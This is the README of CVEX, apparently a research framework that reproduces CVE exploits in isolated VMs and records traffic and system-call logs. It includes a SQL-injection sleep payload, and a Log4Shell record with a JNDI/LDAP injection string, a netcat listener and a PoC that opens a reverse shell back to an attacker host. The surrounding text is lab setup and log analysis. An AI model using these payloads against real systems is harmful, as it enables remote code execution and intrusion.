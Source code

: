 # CVEX: eXecutable CVEs

What is CVEX?

CVEX is a framework for the reproducible exploitation of CVE vulnerabilities:
- Provides blueprints of pre-made exploitation setups, pre-configured with metadata collection facilities (raw traffic, HTTP/S requests, system calls/API calls).
- Uses virtualization to instantiate the blueprint and automatically execute the attack, supporting live analysis of exploitation.
- Separates infrastructure from CVE-related configuration allowing for reuse of blueprints.
- Incentivizes contributors to share reproducible exploits.

Tech stack:
- Virtualization: Vagrant
- Installation and configuration: Ansible
- Network traffic collection: tcpdump
- HTTPS collection: mitmproxy
- Linux syscall collection: strace
- Windows API collection: Process Monitor

## Installation

CVEX has been tested on Ubuntu 24.04, 22.04, and 20.04.

Create virtual environment (optional):
```
python3 -m venv venv
source venv/bin/activate
```

Install CVEX:
```
~/CVEX$ sudo apt update
~/CVEX$ pip install -e .
```

Install Vagrant 2.4.1:
```
wget https://releases.hashicorp.com/vagrant/2.4.1/vagrant-2.4.1-1.x86_64.rpm
sudo apt install alien
sudo alien -i vagrant-2.4.1-1.x86_64.rpm
```

Install VirtualBox 7.0.20 (**Ubuntu 22.04**):
```
wget https://download.virtualbox.org/virtualbox/7.0.20/virtualbox-7.0_7.0.20-163906~Ubuntu~jammy_amd64.deb
sudo dpkg -i virtualbox-7.0_7.0.20-163906~Ubuntu~jammy_amd64.deb
wget https://download.virtualbox.org/virtualbox/7.0.20/Oracle_VM_VirtualBox_Extension_Pack-7.0.20.vbox-extpack
sudo vboxmanage extpack install Oracle_VM_VirtualBox_Extension_Pack-7.0.20.vbox-extpack
```
Refer to the VirtualBox [download](https://www.oracle.com/virtualization/technologies/vm/downloads/virtualbox-downloads.html) page to find the appropriate package of VirtualBox that suits your OS. If dpkg shows errors during installation, run this command to fix them:
```
sudo apt --fix-broken install
```

While in theory Vagrant should work with any VM provider, CVEX was tested only with VirtualBox.

## Run

Execute CVE by providing the CVEX record folder to the `cvex` command:
```
~/CVEX$ cvex records/CVE-0000-00001
```

CVEX comes with a set of PoCs:
- [CVE-0000-00000](records/CVE-0000-00000): curl, executed on Windows, downloads a web-page from ngix, running on Ubuntu

<details>

<summary>Execution of CVE-0000-00000</summary>


[records/CVE-0000-00000/cvex.yml](records/CVE-0000-00000/cvex.yml) describes the VM infrastructure for this PoC:
```
blueprint: windows10-ubuntu2204
ubuntu:
  trace: nginx
  playbook: linux.yml
windows:
  trace: "curl"
  command: "curl https://ubuntu/index.html?cat=(select*from(select(sleep(15)))a)"
```

Full list of parameters of a CVEX record:
```
blueprint: ...   # Blueprint name from the "blueprints" folder
ports: ...       # HTTPS port(s) as integer or list of integers (optional; 443 by default)
...:             # Name of the VM as in the blueprint
  trace: ...     # Name of the process for API tracing (optional); for Windows: partial name of the process; for Linux: regular expression
  playbook: ...  # Ansible playbook (optional)
  command: ...   # Command or list of commands to execute on this VM (optional)
...:
  trace: ...
  playbook: ...
  command: ...
...
```

`command` is treated in a special way:
1. `%vm_name%` will be replaced with the IP address of the VM: `curl https://%ubuntu%:8080/` will turn into `curl https://192.168.56.3:8080/`
2. Optional `&` at the end of the command tells CVEX that it is non-blocking: for `curl https://%ubuntu%:8080/&` CVEX executes `curl https://192.168.56.3:8080/`, and then immediately executes next command without waiting for curl to finish execution
3. Optional `~~~` splits the command into two parts: 1) the command; 2) the message: for `curl https://%ubuntu%:8080/&~~~Downloaded` CVEX executes `curl https://192.168.56.3:8080/`, then waits until curl prints `Downloaded` to stdout, and then immediately executes next command without waiting for curl to finish execution

CVEX blueprints define minimal network deployments:
- Ubuntu host attacking Window host
- Window host attacking Ubuntu host
- Ubuntu host attacking multiple Windows hosts
- ...

Contributors can provide additional blueprints. In the case of CVE-0000-00000 the blueprint `windows10-ubuntu2204` is stored in [blueprints/windows10-ubuntu2204/blueprint.yml](blueprints/windows10-ubuntu2204/blueprint.yml):
```
windows:
  image: "gusztavvargadr/windows-10"
  version: "2202.0.2404"
  type: "windows"
ubuntu:
  image: "bento/ubuntu-22.04"
  version: "202404.23.0"
  type: "linux"
```

Full list of parameters of a blueprint:
```
...:             # Name of the VM
  image: ...     # Vagrant image
  version: ...   # Vagrant image version
  type: ...      # "windows" or "linux"
  playbook: ...  # Ansible playbook (optional)
...:
  image: ...
  version: ...
  type: ...
  playbook: ...
...
```

At first, CVEX pulls an Ubuntu VM from the Vagrant repository and stores the config file of the VM in `~/.cvex/router`. This VM will be the router. It also creates the `clean` snapshot with the initial state of the VM:
```
~/CVEX$ cvex records/CVE-0000-00000
2024-09-13 13:52:30,081 - INFO - [router] Retrieving status of router...
2024-09-13 13:52:32,820 - INFO - [router] Initializing a new VM router at /home/john/.cvex/router...
2024-09-13 13:52:33,766 - INFO - [router] Starting the VM router...
2024-09-13 13:54:41,199 - INFO - [router] Creating snapshot 'clean' for VM router (192.168.56.2)...
```

Ansible playbooks from [ansible](/ansible) are used to pre-configure VMs. CVEX runs the [ansible/router.yml](/ansible/router.yml) Ansible playbook before creating the `router` snapshot:
```
2024-09-13 13:54:56,344 - INFO - [router] Executing Ansible playbook ansible/router.yml...
2024-09-13 13:54:58,042 - INFO - [router] 
2024-09-13 13:54:58,043 - INFO - [router] PLAY [Router] ******************************************************************
2024-09-13 13:54:58,043 - INFO - [router] 
2024-09-13 13:54:58,043 - INFO - [router] TASK [Gathering Facts] *********************************************************
2024-09-13 13:55:01,136 - INFO - [router] [WARNING]: Platform linux on host router is using the discovered Python
2024-09-13 13:55:01,137 - INFO - [router] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-09-13 13:55:01,137 - INFO - [router] interpreter could change the meaning of that path. See
2024-09-13 13:55:01,137 - INFO - [router] https://docs.ansible.com/ansible-
2024-09-13 13:55:01,137 - INFO - [router] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-09-13 13:55:01,162 - INFO - [router] ok: [router]
2024-09-13 13:55:01,162 - INFO - [router] 
2024-09-13 13:55:01,166 - INFO - [router] TASK [Pull mitmproxy-10.3.1-linux-x86_64.tar.gz] *******************************
2024-09-13 13:55:20,994 - INFO - [router] changed: [router]
2024-09-13 13:55:20,994 - INFO - [router] 
2024-09-13 13:55:20,994 - INFO - [router] TASK [Run mitmdump] ************************************************************
2024-09-13 13:55:21,824 - INFO - [router] changed: [router]
2024-09-13 13:55:21,824 - INFO - [router] 
2024-09-13 13:55:21,824 - INFO - [router] TASK [Wait for ~/.mitmproxy] ***************************************************
2024-09-13 13:55:25,603 - INFO - [router] ok: [router]
2024-09-13 13:55:25,603 - INFO - [router] 
2024-09-13 13:55:25,603 - INFO - [router] TASK [Kill mitmdump] ***********************************************************
2024-09-13 13:55:26,131 - INFO - [router] changed: [router]
2024-09-13 13:55:26,131 - INFO - [router] 
2024-09-13 13:55:26,131 - INFO - [router] TASK [Copy certindex] **********************************************************
2024-09-13 13:55:27,643 - INFO - [router] changed: [router]
2024-09-13 13:55:27,643 - INFO - [router] 
2024-09-13 13:55:27,643 - INFO - [router] TASK [Copy default.cfg] ********************************************************
2024-09-13 13:55:29,027 - INFO - [router] changed: [router]
2024-09-13 13:55:29,027 - INFO - [router] 
2024-09-13 13:55:29,027 - INFO - [router] TASK [Generate CRL] ************************************************************
2024-09-13 13:55:29,556 - INFO - [router] changed: [router]
2024-09-13 13:55:29,557 - INFO - [router] 
2024-09-13 13:55:29,557 - INFO - [router] TASK [Convert CRL from PEM to DER] *********************************************
2024-09-13 13:55:30,088 - INFO - [router] changed: [router]
2024-09-13 13:55:30,088 - INFO - [router] 
2024-09-13 13:55:30,088 - INFO - [router] TASK [Fetch root.crl] **********************************************************
2024-09-13 13:55:30,711 - INFO - [router] changed: [router]
2024-09-13 13:55:30,711 - INFO - [router] 
2024-09-13 13:55:30,711 - INFO - [router] TASK [Fetch mitmproxy-ca-cert.cer] *********************************************
2024-09-13 13:55:31,336 - INFO - [router] changed: [router]
2024-09-13 13:55:31,336 - INFO - [router] 
2024-09-13 13:55:31,336 - INFO - [router] PLAY RECAP *********************************************************************
2024-09-13 13:55:31,337 - INFO - [router] router                     : ok=11   changed=9    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-09-13 13:55:31,461 - INFO - [router] Creating snapshot 'router' for VM router (192.168.56.2)...
```

After the router VM, CVEX runs the Windows VM:
```
2024-09-13 13:55:43,939 - INFO - [windows] Initializing a new VM windows at /home/john/.cvex/gusztavvargadr_windows-10/2202.0.2404/1...
2024-09-13 13:55:44,936 - INFO - [windows] Starting the VM windows...
```

Sometimes VM initialization takes longer than expected:
```
2024-09-13 14:03:41,858 - CRITICAL - [windows] VM windows timed out. Please wait until the VM is started and then re-start CVEX with the '-k' parameter.
```

In this case we need to wait until the VM is up and the OS is aready. For example, use the VirtualBox GUI. As soon as the OS fully loads, re-run CVEX with `-k`. With this parameter CVEX uses the VMs that are already running:
```
$ cvex records/CVE-0000-00000 -k
2024-09-13 14:25:18,880 - INFO - [router] Retrieving status of router...
2024-09-13 14:25:23,828 - INFO - [router] VM router (192.168.56.2) is already running
2024-09-13 14:25:26,910 - INFO - [router] Retrieving snapshot list of router...
2024-09-13 14:25:29,701 - INFO - [windows] Looking for a VM with CVE-0000-00000/windows snapshot...
2024-09-13 14:25:35,875 - INFO - [windows] Retrieving status of windows...
2024-09-13 14:25:41,071 - INFO - [windows] VM windows (192.168.56.3) is already running
2024-09-13 14:25:45,390 - INFO - [windows] Retrieving snapshot list of windows...
2024-09-13 14:25:51,738 - INFO - [windows] Creating snapshot 'clean' for VM windows (192.168.56.3)...
```

Be mindful, `cvex -k` will also leave the VMs running (which is great for debugging).

CVEX runs the [ansible/windows.yml](/ansible/windows.yml) Ansible playbook before creating the `CVE-0000-00000/windows` snapshot:
```
2024-09-13 14:26:30,209 - INFO - [windows] Executing Ansible playbook ansible/windows.yml...
2024-09-13 14:26:31,345 - INFO - [windows] 
2024-09-13 14:26:31,346 - INFO - [windows] PLAY [Windows] *****************************************************************
2024-09-13 14:26:31,346 - INFO - [windows] 
2024-09-13 14:26:31,346 - INFO - [windows] TASK [Gathering Facts] *********************************************************
2024-09-13 14:27:21,945 - INFO - [windows] ok: [windows]
2024-09-13 14:27:21,946 - INFO - [windows] 
2024-09-13 14:27:21,946 - INFO - [windows] TASK [Create C:\Tools] *********************************************************
2024-09-13 14:28:04,478 - INFO - [windows] changed: [windows]
2024-09-13 14:28:04,478 - INFO - [windows] 
2024-09-13 14:28:04,479 - INFO - [windows] TASK [Download Process Monitor] ************************************************
2024-09-13 14:28:42,227 - INFO - [windows] changed: [windows]
2024-09-13 14:28:42,227 - INFO - [windows] 
2024-09-13 14:28:42,227 - INFO - [windows] TASK [Unzip ProcessMonitor.zip] ************************************************
2024-09-13 14:29:19,518 - INFO - [windows] changed: [windows]
2024-09-13 14:29:19,518 - INFO - [windows] 
2024-09-13 14:29:19,518 - INFO - [windows] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-09-13 14:32:03,983 - INFO - [windows] changed: [windows]
2024-09-13 14:32:03,983 - INFO - [windows] 
2024-09-13 14:32:03,983 - INFO - [windows] TASK [Install mitmproxy-ca-cert.cer] *******************************************
2024-09-13 14:32:50,823 - INFO - [windows] changed: [windows]
2024-09-13 14:32:50,823 - INFO - [windows] 
2024-09-13 14:32:50,823 - INFO - [windows] TASK [Copy root.crl] ***********************************************************
2024-09-13 14:35:47,857 - INFO - [windows] changed: [windows]
2024-09-13 14:35:47,858 - INFO - [windows] 
2024-09-13 14:35:47,858 - INFO - [windows] TASK [Install root.crl] ********************************************************
2024-09-13 14:36:31,914 - INFO - [windows] changed: [windows]
2024-09-13 14:36:31,914 - INFO - [windows] 
2024-09-13 14:36:31,914 - INFO - [windows] PLAY RECAP *********************************************************************
2024-09-13 14:36:31,914 - INFO - [windows] windows                    : ok=8    changed=7    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-09-13 14:36:31,914 - INFO - [windows] 
2024-09-13 14:36:32,194 - INFO - [windows] Creating snapshot 'CVE-0000-00000/windows' for VM windows (192.168.56.3)...
```

After the Windows VM, CVEX runs the Ubuntu VM:
```
2024-09-13 14:37:03,308 - INFO - [ubuntu] Looking for a VM with CVE-0000-00000/ubuntu snapshot...
2024-09-13 14:37:05,749 - INFO - [ubuntu] Retrieving status of ubuntu...
2024-09-13 14:37:07,563 - INFO - [ubuntu] Initializing a new VM ubuntu at /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/1...
2024-09-13 14:37:09,382 - INFO - [ubuntu] Starting the VM ubuntu...
2024-09-13 14:40:50,765 - INFO - [ubuntu] Creating snapshot 'clean' for VM ubuntu (192.168.56.4)...
```

When the VM is up, CVEX runs the [ansible/linux.yml](/ansible/linux.yml) Ansible playbook:
```
2024-09-13 14:41:11,647 - INFO - [ubuntu] Executing Ansible playbook ansible/linux.yml...
2024-09-13 14:41:13,576 - INFO - [ubuntu] 
2024-09-13 14:41:13,576 - INFO - [ubuntu] PLAY [Linux] *******************************************************************
2024-09-13 14:41:13,576 - INFO - [ubuntu] 
2024-09-13 14:41:13,576 - INFO - [ubuntu] TASK [Gathering Facts] *********************************************************
2024-09-13 14:41:19,893 - INFO - [ubuntu] [WARNING]: Platform linux on host ubuntu is using the discovered Python
2024-09-13 14:41:19,893 - INFO - [ubuntu] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-09-13 14:41:19,893 - INFO - [ubuntu] interpreter could change the meaning of that path. See
2024-09-13 14:41:19,893 - INFO - [ubuntu] https://docs.ansible.com/ansible-
2024-09-13 14:41:19,894 - INFO - [ubuntu] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-09-13 14:41:19,921 - INFO - [ubuntu] ok: [ubuntu]
2024-09-13 14:41:19,922 - INFO - [ubuntu] 
2024-09-13 14:41:19,922 - INFO - [ubuntu] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-09-13 14:41:22,855 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:41:22,855 - INFO - [ubuntu] 
2024-09-13 14:41:22,856 - INFO - [ubuntu] TASK [Run update-ca-certificates] **********************************************
2024-09-13 14:41:34,967 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:41:34,967 - INFO - [ubuntu] 
2024-09-13 14:41:34,967 - INFO - [ubuntu] PLAY RECAP *********************************************************************
2024-09-13 14:41:34,968 - INFO - [ubuntu] ubuntu                     : ok=3    changed=2    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
```

[records/CVE-0000-00000/cvex.yml](records/CVE-0000-00000/cvex.yml) has an optional parameter `playbook: linux.yml` that specifies the custom Ansible playbook. In our case it installs nginx before creating the `CVE-0000-00000/ubuntu` snapshot:
```
2024-09-13 14:41:35,241 - INFO - [ubuntu] Executing Ansible playbook records/CVE-0000-00000/linux.yml...
2024-09-13 14:41:36,711 - INFO - [ubuntu] 
2024-09-13 14:41:36,711 - INFO - [ubuntu] PLAY [Linux target] ************************************************************
2024-09-13 14:41:36,711 - INFO - [ubuntu] 
2024-09-13 14:41:36,711 - INFO - [ubuntu] TASK [Gathering Facts] *********************************************************
2024-09-13 14:41:41,105 - INFO - [ubuntu] [WARNING]: Platform linux on host ubuntu is using the discovered Python
2024-09-13 14:41:41,105 - INFO - [ubuntu] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-09-13 14:41:41,106 - INFO - [ubuntu] interpreter could change the meaning of that path. See
2024-09-13 14:41:41,106 - INFO - [ubuntu] https://docs.ansible.com/ansible-
2024-09-13 14:41:41,106 - INFO - [ubuntu] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-09-13 14:41:41,138 - INFO - [ubuntu] ok: [ubuntu]
2024-09-13 14:41:41,138 - INFO - [ubuntu] 
2024-09-13 14:41:41,138 - INFO - [ubuntu] TASK [Install nginx 1.18.0] ****************************************************
2024-09-13 14:42:43,406 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:43,406 - INFO - [ubuntu] 
2024-09-13 14:42:43,406 - INFO - [ubuntu] TASK [Copy default.conf] *******************************************************
2024-09-13 14:42:45,154 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:45,154 - INFO - [ubuntu] 
2024-09-13 14:42:45,154 - INFO - [ubuntu] TASK [Copy certificate] ********************************************************
2024-09-13 14:42:46,761 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:46,761 - INFO - [ubuntu] 
2024-09-13 14:42:46,761 - INFO - [ubuntu] TASK [Copy key] ****************************************************************
2024-09-13 14:42:48,310 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:48,310 - INFO - [ubuntu] 
2024-09-13 14:42:48,310 - INFO - [ubuntu] TASK [Copy index.html] *********************************************************
2024-09-13 14:42:50,012 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:50,012 - INFO - [ubuntu] 
2024-09-13 14:42:50,012 - INFO - [ubuntu] TASK [Restart nginx] ***********************************************************
2024-09-13 14:42:51,638 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:51,638 - INFO - [ubuntu] 
2024-09-13 14:42:51,638 - INFO - [ubuntu] PLAY RECAP *********************************************************************
2024-09-13 14:42:51,639 - INFO - [ubuntu] ubuntu                     : ok=7    changed=6    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-09-13 14:42:51,639 - INFO - [ubuntu] 
2024-09-13 14:42:51,776 - INFO - [ubuntu] Creating snapshot 'CVE-0000-00000/ubuntu' for VM ubuntu (192.168.56.4)...
```

Every VM may have maximum 3 Ansible playbooks:
1. Configuration playbook ([ansible/linux.yml](/ansible/linux.yml)) - controlled by CVEX developers
2. Blueprint playbook (none in our case) - controlled by CVEX blueprint contributors
3. CVE playbook ([records/CVE-0000-00000/linux.yml](records/CVE-0000-00000/linux.yml)) - controlled by CVEX users

At this point all VMs (router, Windows, Ubuntu) are up and running, the needed software is installed and the needed VM snapshots are created. CVEX performs the following actions:
- Configures the hosts file on every VM except the router
- Sets up static network interface IP addresses on every VM
- Configures the routing so that all network traffic flows through the router VM
- Runs tcpdump on the router
- Runs mitmproxy on the router
- Runs strace on Linux VMs
- Runs Process Monitor on Windows VMs

```
2024-09-13 14:43:04,575 - INFO - [router] Executing 'ls /etc/netplan'...
2024-09-13 14:43:07,653 - INFO - [router] Downloading /etc/netplan/00-installer-config.yaml...
2024-09-13 14:43:07,731 - INFO - [router] Downloading /etc/netplan/01-netcfg.yaml...
2024-09-13 14:43:07,760 - INFO - [router] Downloading /etc/netplan/50-vagrant.yaml...
2024-09-13 14:43:07,805 - INFO - [router] Uploading /tmp/cvex.yaml...
2024-09-13 14:43:07,828 - INFO - [router] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-09-13 14:43:07,894 - INFO - [router] Executing 'sudo ip link set eth1 up'...
2024-09-13 14:43:08,017 - INFO - [router] Executing 'sudo netplan apply'...
2024-09-13 14:43:12,316 - INFO - [router] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-09-13 14:43:12,402 - INFO - [router] Executing 'sudo systemctl restart ufw'...
2024-09-13 14:43:12,531 - INFO - [windows] Executing 'netsh interface ipv4 show inter'...
2024-09-13 14:43:13,943 - INFO - [windows] Executing 'netsh interface ipv4 set interface 5 dadtransmits=0 store=persistent'...
2024-09-13 14:43:14,155 - INFO - [windows] Executing 'powershell "Get-NetAdapter -Name 'Ethernet 2' | New-NetIPAddress -IPAddress 192.168.56.3 -DefaultGateway 192.168.56.2 -PrefixLength 24"'...
2024-09-13 14:43:35,697 - INFO - [windows] Executing 'powershell "Disable-NetAdapter -Name 'Ethernet 2' -Confirm:$False"'...
2024-09-13 14:43:50,320 - INFO - [windows] Executing 'powershell "Enable-NetAdapter -Name 'Ethernet 2' -Confirm:$False"'...
2024-09-13 14:44:04,036 - INFO - [windows] Executing 'route DELETE 192.168.56.0'...
2024-09-13 14:44:04,156 - INFO - [windows] Executing 'route print'...
2024-09-13 14:44:04,339 - INFO - [windows] Executing 'route ADD 192.168.56.0 MASK 255.255.255.0 192.168.56.2 if 5'...
2024-09-13 14:44:04,463 - INFO - [windows] Downloading /C:\Windows\System32\drivers\etc\hosts...
2024-09-13 14:44:04,691 - INFO - [windows] Uploading /C:\Windows\System32\drivers\etc\hosts...
2024-09-13 14:44:04,713 - INFO - [ubuntu] Executing 'ls /etc/netplan'...
2024-09-13 14:44:07,449 - INFO - [ubuntu] Downloading /etc/netplan/00-installer-config.yaml...
2024-09-13 14:44:07,542 - INFO - [ubuntu] Downloading /etc/netplan/01-netcfg.yaml...
2024-09-13 14:44:07,613 - INFO - [ubuntu] Downloading /etc/netplan/50-vagrant.yaml...
2024-09-13 14:44:07,650 - INFO - [ubuntu] Uploading /tmp/cvex.yaml...
2024-09-13 14:44:07,698 - INFO - [ubuntu] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-09-13 14:44:07,749 - INFO - [ubuntu] Executing 'sudo ip link set eth1 up'...
2024-09-13 14:44:07,866 - INFO - [ubuntu] Executing 'sudo netplan apply'...
2024-09-13 14:44:11,357 - INFO - [ubuntu] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-09-13 14:44:11,452 - INFO - [ubuntu] Executing 'sudo systemctl restart ufw'...
2024-09-13 14:44:11,604 - INFO - [ubuntu] Downloading /etc/hosts...
2024-09-13 14:44:11,674 - INFO - [ubuntu] Uploading /tmp/hosts...
2024-09-13 14:44:11,693 - INFO - [ubuntu] Executing 'sudo mv /tmp/hosts /etc/hosts'...
2024-09-13 14:44:11,772 - INFO - [router] Executing 'pkill mitmdump'...
2024-09-13 14:44:11,850 - INFO - [router] Executing 'sudo pkill tcpdump'...
2024-09-13 14:44:11,965 - INFO - [router] Executing 'rm -rf /tmp/cvex'...
2024-09-13 14:44:12,021 - INFO - [router] Executing 'mkdir /tmp/cvex'...
2024-09-13 14:44:12,092 - INFO - [router] Executing 'sudo sysctl net.ipv4.ip_forward=1'...
2024-09-13 14:44:12,181 - INFO - [router] Executing 'sudo tcpdump -i eth1 -U -w /tmp/cvex/router_raw.pcap'...
2024-09-13 14:44:12,238 - INFO - [router] Executing 'sudo iptables -t nat -I PREROUTING --src 0/0 --dst 0/0 -p tcp --dport 443 -j REDIRECT --to-ports 8080'...
2024-09-13 14:44:12,847 - INFO - [router] Executing 'mitmdump --mode transparent -k --set block_global=false -w /tmp/cvex/router_mitmdump.stream'...
2024-09-13 14:44:18,321 - INFO - [windows] Executing 'taskkill /IM Procmon.exe /F'...
2024-09-13 14:44:18,675 - INFO - [windows] Executing 'rmdir /S /Q C:\cvex'...
2024-09-13 14:44:18,765 - INFO - [windows] Executing 'mkdir C:\cvex'...
2024-09-13 14:44:18,852 - INFO - [windows] Uploading /C:\cvex\config.pmc...
2024-09-13 14:44:18,894 - INFO - [windows] Executing 'C:\Tools\Procmon64.exe /AcceptEula /BackingFile C:\cvex\procmon.pml /LoadConfig C:\cvex\config.pmc /Quiet'...
2024-09-13 14:44:18,917 - INFO - [ubuntu] Executing 'sudo pkill strace'...
2024-09-13 14:44:19,008 - INFO - [ubuntu] Executing 'rm -rf /tmp/cvex'...
2024-09-13 14:44:19,078 - INFO - [ubuntu] Executing 'mkdir /tmp/cvex'...
2024-09-13 14:44:19,133 - INFO - [ubuntu] Executing 'ps -ax | egrep "nginx" | grep -v grep'...
2024-09-13 14:44:19,238 - INFO - [ubuntu] Executing 'sudo strace -p 3934 -o /tmp/cvex/ubuntu_strace_nginx_3934.log -v'...
2024-09-13 14:44:19,399 - INFO - [ubuntu] Executing 'sudo strace -p 3935 -o /tmp/cvex/ubuntu_strace_nginx_3935.log -v'...
2024-09-13 14:44:19,527 - INFO - [ubuntu] Executing 'sudo strace -p 3936 -o /tmp/cvex/ubuntu_strace_nginx_3936.log -v'...
```


At this point all VMs are ready to reproduce the CVE. CVEX executes the command from `cvex.yml`:
```
2024-09-13 14:44:19,648 - INFO - [windows] Executing 'curl https://ubuntu/index.html?cat=(select*from(select(sleep(15)))a)'...
```

The curl command has succeeded. CVEX downloads logs and puts them to the default output folder `out`:
- From router: tcpdump's PCAP file
- From router: mitmdump's log file
- From Windows: Process Monitor's log file
- From Linux: strace's log files

Parameter `-o` specifies custom output folder.

```
2024-09-13 14:44:21,063 - INFO - [windows] Executing 'C:\Tools\Procmon64.exe /AcceptEula /Terminate'...
2024-09-13 14:44:30,975 - INFO - [windows] Executing 'C:\Tools\Procmon64.exe /AcceptEula /OpenLog C:\cvex\procmon.pml /SaveAs C:\cvex\procmon.xml'...
2024-09-13 14:44:31,948 - INFO - [windows] Downloading /C:\cvex\procmon.pml...
2024-09-13 14:44:32,644 - INFO - [windows] Downloading /C:\cvex\procmon.xml...
2024-09-13 14:44:33,304 - INFO - [ubuntu] Downloading /tmp/cvex/ubuntu_strace_nginx_3934.log...
2024-09-13 14:44:33,403 - INFO - [ubuntu] Downloading /tmp/cvex/ubuntu_strace_nginx_3935.log...
2024-09-13 14:44:33,436 - INFO - [ubuntu] Downloading /tmp/cvex/ubuntu_strace_nginx_3936.log...
2024-09-13 14:44:33,471 - INFO - [router] Wait for 5 seconds to let tcpdump and mitmdump flush logs on disk...
2024-09-13 14:44:38,472 - INFO - [router] Downloading /tmp/cvex/router_raw.pcap...
2024-09-13 14:44:38,524 - INFO - [router] Downloading /tmp/cvex/router_mitmdump.stream...
```
</details>

- [CVE-0000-00001](records/CVE-0000-00001): curl, executed on Ubuntu, downloads a web-page from ngix, running on another Ubuntu
- [CVE-0000-00002](records/CVE-0000-00002): curl, executed on Ubuntu, downloads a web-page from ngix, running on Windows
- [CVE-0000-00003](records/CVE-0000-00003): curl, executed on Windows, downloads a web-page from ngix, running on another Windows
- [CVE-2021-44228](records/CVE-2021-44228): Log4j vulnerability with backconnect to remote shell

<details>
<summary>CVE-2021-44228 logs analysis</summary>

[records/CVE-2021-44228/cvex.yml](records/CVE-2021-44228/cvex.yml) describes the VM infrastructure for this CVE:

```
blueprint: ubuntu2204-ubuntu2204
ubuntu1:
  playbook: ubuntu1.yml
ubuntu2:
  playbook: ubuntu2.yml
  trace: "curl|python3|nc|java"
  command:
    - "python3 /opt/log4j-shell-poc/poc.py --userip %ubuntu2% --webport 9999 --lport 1234&~~~Listening on 0.0.0.0:1389"
    - "nc -nvlp 1234&~~~Listening on 0.0.0.0 1234"
    # Web server may not reply, which will cause curl to hang
    - "curl -d 'uname=%24%7Bjndi%3Aldap%3A%2F%2F%ubuntu2%%3A1389%2Fa%7D&password=' http://ubuntu1:8080/login&"
    - "sleep 10"
```

Ansible playbook `ubuntu1.yml` installs an Apache Tomcat based web application, vulnerable to the Log4j attack. Ansible playbook `ubuntu2.yml` installs a fake LDAP server and a web server that is hosting the payload.

Since the execution process has been already described in the section `Execution of CVE-0000-00000`, let's focus on analysis of logs produced by CVEX. In our logs the IP address of `ubuntu1` is `192.168.56.3`, the IP address of `ubuntu2` is `192.168.56.4`.

To inspect the PCAP file, run tcpdump:
```
~/CVEX$ tcpdump -qns 0 -A -r out/router_raw.pcap
```

The attacker `192.168.56.4` (`ubuntu2`) issues an HTTP POST request to Apache Tomcat running on `192.168.56.3` (`ubuntu1`). The POST request contains malicious data `${jndi:ldap://192.168.56.4:1389/a}` in the `uname` field. The data is URL-encoded:
```
15:34:03.050477 IP 192.168.56.4.36880 > 192.168.56.3.8080: tcp 219
E....t@.@.....8...8.....:.u................
.....$C.POST /login HTTP/1.1
Host: ubuntu1:8080
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 68
Content-Type: application/x-www-form-urlencoded

uname=%24%7Bjndi%3Aldap%3A%2F%2F192.168.56.4%3A1389%2Fa%7D&password=
```

Log4j logs the `${jndi:ldap://192.168.56.4:1389/a}` string. This triggers the JNDI manager to make a request to the LDAP server controlled by the attacker (`192.168.56.4:1389`). The LDAP server replies with a link to the payload:
```
15:34:04.187067 IP 192.168.56.4.1389 > 192.168.56.3.36182: tcp 148
E.....@.@.d...8...8..m.V.:..Z3.I...........
.....$G.0.....d....a0..0...javaClassName1...foo0+..javaCodeBase1...http://192.168.56.4:9999/0$..objectClass1...javaNamingReference0...javaFactory1	..Exploit
15:34:04.187088 IP 192.168.56.4.1389 > 192.168.56.3.36182: tcp 148
E.....@.?.e...8...8..m.V.:..Z3.I...........
.....$G.0.....d....a0..0...javaClassName1...foo0+..javaCodeBase1...http://192.168.56.4:9999/0$..objectClass1...javaNamingReference0...javaFactory1	..Exploit
15:34:04.191353 IP 192.168.56.4.1389 > 192.168.56.3.36182: tcp 14
E..B..@.@.em..8...8..m.V.:..Z3.I...........
.....$G.0....e.
......
```

